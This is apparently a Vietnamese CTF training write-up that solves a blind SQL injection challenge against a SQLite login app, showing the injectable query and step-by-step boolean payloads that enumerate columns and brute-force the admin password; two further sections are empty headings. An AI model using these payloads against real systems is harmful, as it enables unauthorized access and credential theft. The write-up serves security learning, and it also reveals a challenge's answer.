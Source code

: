 # Mục Lục
- [Simple Blind SQL Injection](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#1-simple-blind-sql-injection)
- [Baby SQL Injection to RCE](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#2-baby-sql-injection-to-rce)
- [Blind Logger Middleware](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/cookieArena.md#3-blind-logger-middleware)
------------
# 1. Simple Blind SQL Injection

## Đầu bài cho biết
- Lấy mật khẩu của `admin`, sau đấy vào `/login` để lấy flag
- Trường mật khẩu gồm từ a-z, 0-9 và _
- cột `upw`

## Giải

![image](https://github.com/user-attachments/assets/e1d35a2f-51e1-4150-a4c8-f48f13411677)

- Đầu tiên với giao diện có 1 trường nhập UID và 1 truy vấn viết phía bên trên là `SELECT * FROM users WHERE uid='';`
- Thử nhập `admin` vào

![image](https://github.com/user-attachments/assets/5da2f3d6-39cd-47e1-b14d-d2edd088a1f8)

- Thử với uid khác `haha`

![image](https://github.com/user-attachments/assets/144f8979-b72c-4b32-b0f5-3b08d53942db)

- Có thể thấy chức năng này là kiểm tra uid nhập vào là có tồn tại trong database hay không.
- Thử với `'` và `''` thì `''` cho kết quả `not found` còn `'` báo lỗi như này:

![image](https://github.com/user-attachments/assets/a7dc3ce9-4a4d-48e5-8cb3-92347cdd0cfd)

- Chú ý vào `nrows = 1 if query_db("SELECT * FROM users WHERE uid ='%s'" % uid, one=True) else 0`, thì có thể hiểu là nó sẽ lấy thông tin được vào ô `UID` và chèn trực tiếp vào truy vấn SQL, nó bị lỗi vì thừa dấu `'` trong truy vấn làm hỏng cú pháp
- Từ việc chèn trực tiếp đó cùng với thông tin thông báo `exists`, `not found` có thể chắc chắn đấy là Boolean SQLi

- Đầu tiên, thử nhập vào với: `admin' AND 1=1 --`

![image](https://github.com/user-attachments/assets/2069767c-2547-4028-9f61-d2d3eca14e98)

- Thử số cột có trong bảng `users`: `admin' ORDER BY 1 --`, khi thử đến 4 thì có lỗi xảy ra

![image](https://github.com/user-attachments/assets/f57a18cb-b9bb-4229-996f-52872e72fb9e)

- Vậy bảng `users` này có 3 cột
- Biết: 
    + Bảng: users
    + Column: uid, upw, NULL
- Bây giờ cần đi tìm cột này để xác định xem có phải là cột password hay không?
- Với sqlite thì ta có thể thử dùng `name` với `PRAGME_TABLE_INFO(users)` để lấy tên các cột trong bảng (Cái này em hỏi GPT chứ không biết kiếm ở đâu 🤡)
- `admin' AND (SELECT name FROM PRAGMA_TABLE_INFO('users') LIMIT 1) = 'uid' --`

![image](https://github.com/user-attachments/assets/274bb17c-cf12-4e49-8221-f13ee8dbd711)

- Cột đầu tiên không phải là `uid`, ta đổi qua cột khác bằng cách thêm `OFFSET 1`

![image](https://github.com/user-attachments/assets/890ccf2b-d540-45a3-82e5-ec5228c27d48)

![image](https://github.com/user-attachments/assets/a91d28c0-54f6-42ad-bcf3-debca4ac1a7e)

- Vậy cột đầu là cột cần tìm
- Xem độ dài tên cột này rồi Brute Force ra thui:
- Thử độ dài: `admin' AND (SELECT LENGTH(name) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 3 --`

![image](https://github.com/user-attachments/assets/92138a38-5eb8-4a35-bec9-4367a4c16750)

- Dùng SUBSTRING() để Brute Force ra: `admin' AND (SELECT SUBSTRING(name, 1, 1) FROM PRAGMA_TABLE_INFO('users') LIMIT 1 OFFSET 0) = 'a' --`

![image](https://github.com/user-attachments/assets/43e68417-cea6-4da2-b6a2-25f9b96c675c)

- Ta được tên cột là `idx`, trong 3 cột thì cái có khả năng là mật khẩu nhất là `upw`
- Ta thử lấy thông tin của `upw` với `uid = admin`: `admin' AND (SELECT SUBSTRING(upw, 1, 1) FROM users WHERE uid = 'admin') = 'a' --`
- Rồi lại đưa lên Intruder để Brute Force nó

![image](https://github.com/user-attachments/assets/4b65567c-b760-4e75-b342-5e17ab96d7eb)

- Chuyển qua `/login` và đăng nhập với username = `admin` và pass = `y0u_4r3_4dm1n`

![image](https://github.com/user-attachments/assets/541b7fba-906d-4bc4-b231-9bed994354f8)

# 2. Baby SQL Injection to RCE

# 3. Blind Logger Middleware
